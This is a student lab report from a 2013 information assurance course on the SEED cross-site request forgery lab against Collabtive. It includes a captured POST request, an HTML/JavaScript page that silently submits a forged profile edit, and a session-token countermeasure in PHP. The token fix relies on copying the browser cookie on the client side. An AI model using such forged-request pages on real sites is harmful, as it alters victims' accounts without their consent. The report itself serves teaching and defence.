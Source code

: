 #+TITLE: 2013-FA-CS-336-LA-04-AndyS-SheaN
#+AUTHOR: Andrew Schwartzmeyer, Shea Newton
#+OPTIONS: toc:nil num:nil

| Year and Semester: | 2013 FALL                         |
| Course Number:     | CS-336                            |
| Course Title:      | Intro. to Information Assurance   |
| Work Number:       | LA-04                             |
| Work Name:         | Cross-Site Request Forgery        |
| Work Version:      | Version 1                         |
| Long Date:         | Tuesday, 10 November 2013         |
| Author Names:      | Andrew Schwartzmeyer, Shea Newton |

* TODO LA-04 NetSec  ::noexport::
   DEADLINE: <2013-11-10 Sun>
For this laboratory assignment please follow the instructions in the
laboratory in the link below and for preparing your laboratory report
please follow the instructions in this posting plus all the guidelines
posted within this course site under Course Info -> Coursework
Submission Instructions -> LA-Laboratory Report Submissions.

Cross-Site Request Forgery

Laboratory Instructions:

http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/

These laboratories have been developed by Wenliang Du of Syracuse
University and collaborators with sponsorship from the National
Science Foundation (NSF).

This is a group assignment (groups of 2 that will be determined in
class). Please submit a laboratory report as described within this
course site. Both students in the group will obtain the same grade and
only one student in the group needs to submit.

Additional Requirements:

0) When you create the VM it is mandatory that you configure the
   virtual Network to Internal Network.

VERY IMPORTANT: Before starting the laboratory please change the logon
credentials for both Ubuntu users and the mysql user.

1) In addition to describing with detail all the steps you carried out
   and their corresponding rationale and answering all the questions
   posted within the linked lab, please do the following:

2) Comment the code with high detail and include in your laboratory
   report those relevant portions of the code and their corresponding
   non-vulnerable versions.

3) Clearly specify, for example by highlighting, where the presented
   code is vulnerable.

4) Present a new version of the code that is not vulnerable, even when
   compiled and run with all compiler and system protection mechanisms
   disabled. Show, in the description and experimentally, that your
   improved version does not contain the same vulnerability.

5) Prepare and submit a laboratory report in PDF following the
   guidelines posted within this course site under Course Info ->
   Coursework Submission Instructions -> LA-Laboratory Report
   Submissions.


* Abstract

* Problem and Background

* Problem Detail

* Tasks
** Task 0: Setup the VM
Our first task is to properly setup the provided virtual machine
environment in which we will complete this lab. We are given an Ubuntu
Desktop 11.04 VM, and the first order of business is to lock it
down. To do this we set its virtual network adaptor to "Internal
Network" so that it cannot communicate with any other machine, then we
change the credentials of both Ubuntu users and the MySQL user
(although the latter is not used in this lab).
** Task 1: Modifying the Victim's Profile
Before we can modify the victim's profile, we need to capture a POST
request of the user submitting the edit profile form (as it is this
request we will be forging). To do this, we opened up Collabtive,
logged in as "bob", navigated to the edit profile form, opened the
Live HTTP Headers extension, cleared it, submitted the form, and went
back to the extension, which captured the initial POST request for us
(in addition to all the subsequent GET requests made by the browser
drawing the new page). The captured POST request is reproduced here,
with the GET requests removed for brevity.

#+begin_src txt
http://localhost/CSRF/Collabtive/manageuser.php?action=edit

POST /CSRF/Collabtive/manageuser.php?action=edit HTTP/1.1 Host:
localhost User-Agent: Mozilla/5.0 (X11; Linux i686; rv:5.0)
Gecko/20100101 Firefox/5.0 Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5 Accept-Encoding: gzip, deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 Connection: keep-alive
Referer:
http://localhost/CSRF/Collabtive/manageuser.php?action=editform&id=3
Cookie: PHPSESSID=88n5386bqoes4rs843oviuh731 Content-Type:
multipart/form-data;
boundary=---------------------------20367708811588547619618939618
Content-Length: 2265
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="name"

bob -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="userfile"; filename=""
Content-Type: application/octet-stream


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="file-$myprojects[project].ID"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="company"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="email"

bob@example.com
-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="web"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="tel2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address1"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="zip"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="address2"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="country"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="state"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="gender"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="locale"

en -----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="admin"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="oldpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="newpass"


-----------------------------20367708811588547619618939618
Content-Disposition: form-data; name="repeatpass"


-----------------------------20367708811588547619618939618--

HTTP/1.1 302 Found Date: Sun, 10 Nov 2013 02:02:32 GMT Server:
Apache/2.2.17 (Ubuntu) X-Powered-By: PHP/5.3.5-1ubuntu7.2 Expires:
Thu, 19 Nov 1981 08:52:00 GMT Cache-Control: no-store, no-cache,
must-revalidate, post-check=0, pre-check=0 Pragma: no-cache Location:
http://localhost/CSRF/Collabtive/manageuser.php?action=profile&id=3&mode=edited
Content-Encoding: gzip Vary: Accept-Encoding Content-Length: 26
Keep-Alive: timeout=15, max=100 Connection: Keep-Alive Content-Type:
text/html; charset=utf-8
----------------------------------------------------------
#+end_src

With the captured request, we now have the information (namely the
requests' structure) required for us to forge a new one. Next we need
to make an HTML page for our attack, with a hidden form filled with
our desired changes, and some embedded Javascript to submit it through
a POST request.

#+begin_src html
  <!DOCTYPE html>
  <!--
  This code was provided by the lab's author Wenliang Du, of Syracuse
  University under the GNU Free Documentation License
  
  Editted by us to make our desired changes, and post to the correct
  URL.
  -->
  <html>
  <title>
  </title>
  <body>
  <h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">
  function post(url,fields) {
     //create a <form> element.
     var p = document.createElement('form');
     //construct the form
     p.action = url;
     p.innerHTML = fields;
     p.target = 'self';
     p.method = 'post';
     //append the form to the current page.
     document.body.appendChild(p);
     //submit the form
     p.submit();
  }
  
  function csrf_hack() {
  var fields;
     // The following are form entries that need to be filled out
     //     by attackers. The entries are made hidden, so the victim
     //     won't be able to see them.
     fields += "<input type='hidden' name='name' value='notbob' />";
     fields += "<input type='hidden' name='gender' value='female' />";
     fields += "<input type='hidden' name='company' value='seed' />";
     post('http://localhost/CSRF/Collabtive/manageuser.php?action=edit',fields);
  }
  // invoke csrf_hack() after the page is loaded.
  window.onload = function() { csrf_hack(); }
  </script>
  </body>
  </html>
#+end_src

Now if we login to a user (we chose 'bob'), and then in a separate
browser tab open the attack code at
http://localhost/CSRF/Attack/index.html, our cross-site request
forgery will change bob's name to 'notbob', transgender him, and
assign him to our company 'seed'. This is done when the csrf_hack()
JavaScript function is called (on page load through the
'window.onload' hook), which adds our three HTML form inputs to a
fields variable, and submits this and the attack URL
('http://localhost/CSRF/Collabtive/manageuser.php?action=edit') to the
function post(), which creates an HTML form element on the document
and puts it into a temporary variable, assigns the url to the action
of the element, puts the value of fields into the element's inner
HTML, assigns the element as target, makes the element's method a POST
request, appends the element as a child to the body of the HTML
document, and calls submit on the element. This final action causes
the actual POST request with the hidden HTML form to be submitted to
the target URL, which in turn edit's the users profile because the
destination server cannot distinguish the forged request because it
trusts (through the browser's cookie) the user's authentication.

** Task 2: Implementing a countermeasure for Collabtive
Because cross-site request forgeries depend on the server blindly
reauthenticating the user through their cookie (which is obviously
quite vulnerable), protecting a web application from an CSRF attack is
actually quite easy. It simply requires implementation better
authentication. The method the lab instructs us to use is that of
secret-token authentication: our edit user form can include a hidden
field with a secret ID (normally the value of the session cookie),
which the server can use to validate an incoming POST request. If the
request does not have the SID, or it does not match, the server can
reject the request and thus deny the attack.

To implement this, first we add the following code into edit user form
template file located at
`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`.

#+begin_src html
...
  <input type = "hidden" name = "sid" value = "" />
...
  <button type="submit" onclick="this.form.sid.value = document.cookie"
    onfocus="this.blur()">{#send#}</button>
...
#+end_src

This adds the hidden input 'sid', and on the clock of the form send
button, assigns the value of the session cookie to the value of the
sid input.

Next we need to implement the SID validation. In the file `/var/www/CSRF/Collabtive/manageuser.php`, we add the following validation check inside the first logical if statement (which checks that our action is not one of "login", "logout", "resetpassword", or "loginerror", so it will pass for "edit").

#+begin_src php
  if ($action == "edit" &&
      $_COOKIE["PHPSESSID"] !=
        str_replace("PHPSESSID=", "", getArrayVal($_POST, "sid"))) { 
    echo("Cookie and SID unmatched");
    die();
  }
#+end_src

This checks if our action is an edit, and if so, it validates that the
value of the cookie `$_COOKIE["PHPSESSID"]` against the value of the
"sid" from the POST request (which has been parsed by str_replace to
get rid of the extraneous string "PHPSESSID="). If they do not match,
it echoes such and subsequently dies, denying the attack.
* Code

* Answers

* References

Du, Wenliang. 2006-2013. "Cross-Site Request Forgery (CSRF) Attack Lab". http://www.cis.syr.edu/~wedu/seed/Labs/Web/CSRF_Collabtive/
